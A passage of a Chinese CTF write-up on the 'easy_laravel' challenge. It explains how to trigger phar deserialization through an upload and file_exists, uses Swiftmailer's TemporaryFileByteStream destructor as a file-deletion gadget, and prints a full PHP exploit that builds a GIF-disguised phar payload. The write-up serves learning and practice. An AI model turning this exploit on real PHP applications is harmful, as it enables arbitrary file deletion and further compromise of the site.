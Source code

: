 即可以得到编译后的文件的路径：

/usr/share/nginx/html/storage/framework/views/34e41df0934a75437873264cd28e2d835bc38772.php

那么接下来要做的就是删掉这个文件。看到旁边还有个上传功能：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210420234714.png)

上传成功则传到app/public，并且下面check函数存在file_exists函数，可以触发phar反序列化。
然后寻找删除文件的地方，全局搜索__destruct：

swiftmailer/swiftmailer/lib/classes/Swift/ByteStream/TemporaryFileByteStream.php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210421000007.png)

正是我们要寻找的删除函数。

exp:

    <?php
        include('autoload.php');
        $a = serialize(new Swift_ByteStream_TemporaryFileByteStream());
        var_dump(unserialize($a));
        var_dump($a);
        $a = preg_replace('/\/tmp\/FileByteStream[\w]{6}/', "/usr/share/nginx/html/storage/framework/views/34e41df0934a75437873264cd28e2d835bc38772.php", $a); //将其换成要删除的文件名
        $a = str_replace('s:25', 's:90', $a);   //修改对应的序列化数据长度
        var_dump($a);
        $b = unserialize($a);
    
        $p = new Phar('./tr1ple.phar', 0);
        $p->startBuffering();
        $p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
        $p->setMetadata($b);
        $p->addFromString('test.txt','text');
        $p->stopBuffering();
        rename('tr1ple.phar', 'tr1ple.gif')
    ?>

但是这个在BUU上是打不通的，我仔细对比了buu给的exp和网上复现wp的区别，发现是缓存文件地址的不同，所以用网上的那个是没法成功删掉缓存文件的。exp就不放了，BUU贴出来了，链接在下面。

想了想可能是这个导致的：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210421010359.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210421010708.png)

不去深究了，理解就行。

复现思路：
https://www.cnblogs.com/tr1ple/p/11044313.html
https://github.com/CTFTraining/huwangbei_2018_easy_laravel/blob/master/exp/easy_laravel_exp.py
https://www.codercto.com/a/31804.html
